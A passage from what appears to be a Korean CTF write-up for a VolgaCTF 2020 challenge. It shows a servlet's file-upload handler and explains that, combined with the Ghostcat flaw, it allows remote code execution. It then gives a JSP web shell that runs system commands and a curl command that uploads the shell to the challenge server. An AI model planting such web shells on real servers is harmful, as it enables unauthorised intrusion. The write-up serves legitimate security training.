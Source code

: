 ```java
      for (int i = 0, count = 32 - s2.length(); i < count; i++)
        sb.append("0");
      return sb.append(s2).toString();
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
      return "Error";
    }
  }

  private String extractFileName(Part part) {
    String contentDisp = part.getHeader("content-disposition");
    String[] items = contentDisp.split(";");
    for (String s : items) {
      if (s.trim().startsWith("filename"))
        return s.substring(s.indexOf("=") + 2, s.length() - 1);
    }
    return "";
  }
}

```

분석을 해보면 이 서블릿과 맵핑이된 `/ServeScreenshot` 으로 post 방식의 파일 업로드 요청과 파라미터로 `submit=true` 값이 들어오게 되면 그 파일을 `/uploads` 밑에 저장을 하게 되는데 이때 이름은 올릴때 사용한 이름의 MD5 값으로 하여 파일을 저장 합니다.

이것을 통해 `Ghostcat` 취약점을 이용한 `RCE` 공격의 조건이 성립 되었습니다.

이제 아래의 내용이 작성된 JSP 웹쉘을 업로드 합니다.

```jsp
page import="java.io.*" %>
<%
  try {
        Process child = Runtime.getRuntime().exec("ls -la");
        InputStream in = child.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
        try {
            child.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    } catch (IOException e) {
        System.err.println(e);
    }
%>
```

```sh
curl -i -X POST -F 'file=@/root/cmd.jsp' http://netcorp.q.2020.volgactf.ru:7782/ServeScreenshot?submit=true
```
